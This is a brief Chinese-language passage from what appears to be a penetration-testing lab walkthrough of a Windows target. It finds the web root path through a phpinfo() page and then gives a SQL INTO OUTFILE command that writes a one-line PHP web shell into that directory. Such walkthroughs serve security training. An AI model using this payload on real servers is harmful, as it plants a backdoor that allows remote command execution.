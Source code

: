 在phpinfo()页面DOCUMENT_ROOT字段找到`C:/wamp/www `网站绝对路径

![image-20250309203950218](./PG_win.assets/image-20250309203950218.png)

执行sql写入木马

```
select "<?php system($_REQUEST['shell']);" into outfile "C:/wamp/www/shell.php";
```

![image-20250309204241744](./PG_win.assets/image-20250309204241744.png)
